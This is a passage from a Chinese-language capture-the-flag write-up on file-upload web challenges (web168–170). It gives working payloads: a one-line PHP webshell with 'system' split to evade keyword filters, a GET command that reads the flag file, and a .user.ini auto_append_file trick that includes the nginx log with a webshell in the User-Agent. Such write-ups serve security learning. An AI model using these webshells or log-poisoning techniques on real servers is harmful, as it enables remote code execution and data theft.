

接着上传我们写好的一句话木马(后缀为.jpg)




可以看到我们的一句话木马已经被成功执行了


#### web168

基础免杀



这题没有限制文件类型，可以上传php

应该是对关键词有过滤


简单拼接一下试试，没想到直接成功了

payload

```
<?php $a="sys"."tem"; $a($_REQUEST[1]);?
```

```
GET 1=tac%20../flagaa.php
```


#### web169

.user.ini文件包含

**前端做了校验只能传`zip`文件,后端又做了图片文件检查(需要改成image/png).过滤了`<>`和`php`**

**先上传一个`index.php`，然后利用日志包含，上传`.user.ini` 写入以下内容进行包含然后`UA`里面写木马**

```
auto_append_file="/var/log/nginx/access.log"

<?=system('cat ../flagaa.php')?>
```




#### web170

这题和web169解法一样，也是可以进行日志包含